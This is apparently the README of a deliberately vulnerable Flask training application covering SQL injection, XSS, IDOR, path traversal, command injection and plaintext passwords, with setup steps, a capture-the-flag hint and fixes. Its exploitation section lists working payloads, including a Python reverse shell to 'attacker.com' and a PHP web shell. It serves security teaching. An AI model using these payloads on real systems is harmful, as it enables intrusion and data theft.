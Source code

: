 # Vulnerable Web Application Demo

This Flask web application was intentionally designed with security vulnerabilities for educational purposes. It demonstrates common web security issues according to the OWASP Top 10.

## ⚠️ Warning

**This application is intentionally vulnerable and should only be used in a controlled environment for educational purposes.**

**DO NOT deploy this application in a production environment or use it with real user data.**

## Included Vulnerabilities

1. **SQL Injection**: The login form is vulnerable to SQL injection attacks.
2. **Cross-Site Scripting (XSS)**: The comments section allows execution of arbitrary JavaScript.
3. **Insecure Direct Object References (IDOR)**: User profiles can be accessed by manipulating URL parameters.
4. **Path Traversal**: File upload functionality allows saving files to unauthorized locations.
5. **Command Injection**: Admin tools allow executing arbitrary system commands.
6. **Hidden Flag**: A flag file is placed in a restricted directory for CTF-style challenges.
7. **Security Misconfiguration**: The application runs in debug mode and has other security misconfigurations.
8. **Password Storage**: Passwords are stored as plaintext in the database.

## Setup Instructions

1. Create a virtual environment:
   ```
   python -m venv venv
   source venv/bin/activate  # On Windows: venv\Scripts\activate
   ```

2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```

3. Run the application:
   ```
   python app.py
   ```

4. Access the application at http://127.0.0.1:5000

## Exploitation Examples

### SQL Injection
- Username: `' OR '1'='1` with any password
- Username: `admin' --` with any password

### XSS (Cross-Site Scripting)
Post a comment with:
- `<script>alert('XSS');</script>`
- `<img src="x" onerror="alert('XSS')">`

### IDOR (Insecure Direct Object References)
- Navigate to `/profile/1`, `/profile/2`, etc., without proper authorization

### Path Traversal
- Upload a file with subdirectory path: `../restricted`
- This bypasses access controls and allows writing to arbitrary directories

### Command Injection
Use commands like:
- `ping 127.0.0.1 && whoami`
- `ping 127.0.0.1; cat /etc/passwd`
- `ping 127.0.0.1; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'`

### Reverse Shell Examples
1. Create a reverse shell file (e.g., shell.php):
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. Upload to an accessible location using path traversal

3. Access the shell: `/uploads/shell.php?cmd=whoami`

## Capture The Flag

Find and access the hidden flag file in the restricted directory. Hint: It's at `/restricted/flag.txt` but requires either:
- Admin access
- Path traversal through the file upload vulnerability

## Learning Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

## How to Fix These Vulnerabilities

Each vulnerability has a secure alternative:

1. **SQL Injection**: Use parameterized queries or an ORM
2. **XSS**: Sanitize user input and use proper escaping
3. **IDOR**: Implement proper access controls
4. **Path Traversal**: Validate and sanitize file paths, use secure file storage
5. **Command Injection**: Never use user input directly in system commands
6. **Security Misconfiguration**: Turn off debug mode in production, implement proper error handling
7. **Password Storage**: Use password hashing with a strong algorithm (bcrypt, Argon2) 